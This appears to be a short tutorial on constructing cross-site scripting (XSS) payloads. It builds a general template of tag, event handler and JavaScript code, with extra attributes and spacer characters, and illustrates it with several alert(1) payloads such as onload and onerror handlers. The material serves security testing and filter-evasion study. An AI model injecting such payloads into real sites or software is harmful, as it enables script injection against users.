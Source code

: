 # **XSS-payloads scheme**

Aside from the classic XSS payload <script>alert(1)</script> and source based ones like 
```
<a href=x>
```
we can start building payloads using the following simple scheme:
```
<tag handler=code>
````
Where we have the HTML tag, the event handler associated with it and the javascript code to execute.
But although it’s true for short payloads like <svg onload=alert(1)>, some payloads like <b onclick=alert(1)> that requires user
 interaction for example, needs a text to be clicked for the javascript code be triggered:
```
<b onclick=alert(1)>click me!
```
 
Some payloads also need tag attribute(s) inside it:

```
<img src=x onerror=alert(1)>
```
And some needs something before it:

```
<frameset><frame src onload=alert(1)>
```
So let’s make a better scheme:

```
extra1 <tag extra2 handler=code> extra3
```
It has the following variation:
```
extra1 <tag handler=code extra2> extra3
```
Almost there. There’s also an important thing to consider: the spaces inside the tag. In the major browsers, we can have a slash between tag and handler, for example:

```
<svg/onload=alert(1)>
```
This and other characters are allowed between tag and handler, tag and attribute, attribute and handler etc without change the syntax.

Here is our final scheme:
```
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
```
Variation:
```
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
```
